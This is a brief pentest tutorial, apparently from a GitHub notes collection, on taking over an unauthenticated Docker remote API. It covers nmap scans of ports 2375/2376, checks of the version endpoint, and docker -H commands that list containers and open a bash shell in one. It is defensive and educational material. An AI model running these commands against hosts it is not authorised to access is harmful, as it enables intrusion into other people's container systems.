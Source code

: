 # Docker API unauthorized RCE

-   Docker is an open-source platform for developers and other IT professionals to help build, ship, and run distributed applications.
    the docker daemon (dockerd) provides an API service used for remote control of docker service the default daemon listen on Unix /var/run/docker.sock and when bound to a public interface can be used by an attacker to compromise container system due to lack of default authentication

## Background concept:

-   The host is running docker: daemon bound to the external interface with no access control or authentication
-   Attacker uses docker API function to enumerate manage and control the container service the attacker is able to control existing deployed container or create another one.
-   Docker API provides JSON response containing the output of command issued.
-   Enumerating docker API services
-   By default, the Docker host remote API listens on ports 2375 / 2376 and has no authentication. If the port is not blocked, docker host APIs can be accessed over the public internet.

```
nmap IP:2375/2376
nmap -p- IP
nmap -Pn -p 2375 IP
nmap -sV -p 2375 IP
```

-   To confirm that the docker is service is running on the target we can give the string in the browser and check the response
    ex: `https://IP:2375`
-   we will receive a response something like this
    `{"message":"page not found"}`
-   and to confirm the version details we can use this
    `https://IP:2375/version`

-   The command used to exploit

-   This command is used to get all the information about the docker container
    `docker -H IP:2375 info`

-   List all the running containers
    `docker -H IP:2375 ps`

-   List all the stopped containers
    `docker -H IP:2375 ps -a`

-   Docker command for RCE
    `docker -H IP:2375 exec -it container_name /bin/bash`

## Contributor:

-   [N3T_hunt3r](https://twitter.com/N3T_hunt3r)
